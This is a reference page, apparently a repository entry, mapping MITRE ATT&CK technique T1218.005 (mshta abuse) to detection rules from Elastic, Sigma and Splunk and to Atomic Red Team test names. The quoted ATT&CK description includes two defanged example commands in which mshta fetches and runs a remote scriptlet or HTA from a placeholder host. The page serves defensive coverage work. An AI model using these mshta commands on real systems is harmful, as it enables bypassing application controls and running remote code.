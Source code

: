 # T1218.005: Mshta
**MITRE ATT&CK Tactic(s):** Defense Evasion

**[MITRE ATT&CK Description](https://attack.mitre.org/techniques/T1218/005)**
<blockquote>Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>

## Policy / Process Controls
### [MITRE D3FEND](https://d3fend.mitre.org/)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped resources:** 2328

**ATT&CK-mapped resources for this (sub)technique:** 1

Resources mapped to this (sub)technique can be viewed on [this page](https://d3fend.mitre.org/) (see also the [ATT&CK to D3FEND Mapper](https://d3fend.mitre.org/tools/attack-mapper) tool):

* [no defensive relations yet](https://d3fend.mitre.org/technique/d3f:nodefensiverelationsyet)

## Technical Controls (Detection Rules)
### [Elastic Detection Rules](https://github.com/elastic/detection-rules)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped rules:** 560

**ATT&CK-mapped resources for this (sub)technique:** 4

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[rules](https://github.com/elastic/detection-rules/tree/main/rules)</code> folder:

* [windows](https://github.com/elastic/detection-rules/tree/main/rules/windows/) / **[Mshta Making Network Connections](https://github.com/elastic/detection-rules/blob/main/rules/windows/defense_evasion_mshta_beacon.toml)**
* [windows](https://github.com/elastic/detection-rules/tree/main/rules/windows/) / **[Suspicious Execution from a Mounted Device](https://github.com/elastic/detection-rules/blob/main/rules/windows/defense_evasion_suspicious_execution_from_mounted_device.toml)**
* [windows](https://github.com/elastic/detection-rules/tree/main/rules/windows/) / **[Incoming DCOM Lateral Movement via MSHTA](https://github.com/elastic/detection-rules/blob/main/rules/windows/lateral_movement_dcom_hta.toml)**
* [_deprecated](https://github.com/elastic/detection-rules/tree/main/rules/_deprecated/) / **[Network Connection via Mshta](https://github.com/elastic/detection-rules/blob/main/rules/_deprecated/defense_evasion_mshta_making_network_connections.toml)**

### [Sigma rules public repository](https://github.com/SigmaHQ/sigma)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped rules:** 2360

**ATT&CK-mapped resources for this (sub)technique:** 8

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[rules](https://github.com/SigmaHQ/sigma/tree/master/rules)</code> folder:

* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [create_remote_thread](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/create_remote_thread/) / **[CACTUSTORCH Remote Thread Creation](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/create_remote_thread/sysmon_cactustorch.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Baby Shark Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_babyshark.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[MSHTA Spwaned by SVCHOST](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_lethalhta.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Mshta JavaScript Execution](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_mshta_javascript.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[MSHTA Spawning Windows Shell](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_mshta_spawn_shell.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Possible Applocker Bypass](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_possible_applocker_bypass.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Parent of Csc.exe](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_csc.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[MSHTA Suspicious Execution 01](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_mshta_execution.yml)**

### [Splunk Security Content](https://github.com/splunk/security_content)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped rules:** 1479

**ATT&CK-mapped resources for this (sub)technique:** 12

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[detections](https://github.com/splunk/security_content/tree/develop/detections)</code> folder:

* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect mshta inline hta execution](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_inline_hta_execution.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect mshta renamed](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_renamed.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect MSHTA Url in Command Line](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_url_in_command_line.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect Rundll32 Inline HTA Execution](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_inline_hta_execution.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Mshta spawning Rundll32 OR Regsvr32 Process](https://github.com/splunk/security_content/blob/develop/detections/endpoint/mshta_spawning_rundll32_or_regsvr32_process.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Office Product Spawn CMD Process](https://github.com/splunk/security_content/blob/develop/detections/endpoint/office_product_spawn_cmd_process.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Windows MSHTA Child Process](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_child_process.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Windows MSHTA Command-Line URL](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_command_line_url.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Windows MSHTA Inline HTA Execution](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_inline_hta_execution.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Windows Rundll32 Inline HTA Execution](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_rundll32_inline_hta_execution.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious mshta child process](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_mshta_child_process.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious mshta spawn](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_mshta_spawn.yml)**


## Offensive Security Tests
### [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped tests:** 1262

**ATT&CK-mapped resources for this (sub)technique:** 10

The following unit tests mapped to this (sub)technique can be located in [the file here](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1218.005/T1218.005.yaml):

* Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
* Mshta executes VBScript to execute malicious command
* Mshta Executes Remote HTML Application (HTA)
* Invoke HTML Application - Jscript Engine over Local UNC Simulating Lateral Movement
* Invoke HTML Application - Jscript Engine Simulating Double Click
* Invoke HTML Application - Direct download from URI
* Invoke HTML Application - JScript Engine with Rundll32 and Inline Protocol Handler
* Invoke HTML Application - JScript Engine with Inline Protocol Handler
* Invoke HTML Application - Simulate Lateral Movement over UNC Path
* Mshta used to Execute PowerShell

